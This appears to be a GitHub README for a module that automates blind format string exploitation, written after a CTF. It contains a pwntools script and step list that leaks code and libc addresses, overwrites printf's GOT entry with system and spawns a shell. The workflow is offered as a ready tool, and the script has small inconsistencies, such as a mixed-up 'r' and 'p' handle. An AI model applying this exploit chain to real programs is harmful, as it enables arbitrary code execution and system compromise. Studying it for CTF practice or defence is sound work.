## Blind Format String Exploitation 
This is a module to exploit blind format string vulnerability  

## Vuln Tips

After solving a recent CTF i got some idea about this vuln 

  * All u have to do is find offset where ur input is stored (probably 100 bytes away from ur input)
  * Keep address after format str coz if null byte is present printf stops there
  * Write byte by byte (after one write , the no_of_bytes written is freshly  calculated )

### How to use it ?
```python
from pwn import *
from frmstr import *

p = process('blind')
saveSocket = p

base_addr = 0x08048000

data = leak_code(r,263,2,0x0804852b,10) # leak_code(r,offset,pad,start_addr,size)
print disasm(data,arch='i386')
d, dynamic_ptr = leak_libc_ptr(p,base_addr)
system_libc  = leak_libc(d,'system')
fprintf_libc = leak_libc(d,'fprintf')

got_addr = find_got(p,dynamic_ptr)
printf_got = resolve_got(got_addr, fprintf_libc)

send_payload(p,printf_got, system_libc,6)
#send_rev_payload(r,0x804a020,0xbffff92c,261)
p.sendline('/bin/sh\x00')
p.interactive()
p.close()

```

#### Steps For Exploitation
1) leak the code

2) leak Libc usinf pwntools Dynelf module

3) leak .dynamic ptr and then GOT table addr 

4) leak printf_got

5) Overwrite printf_got with system addr </p>

6) send /bin/sh 
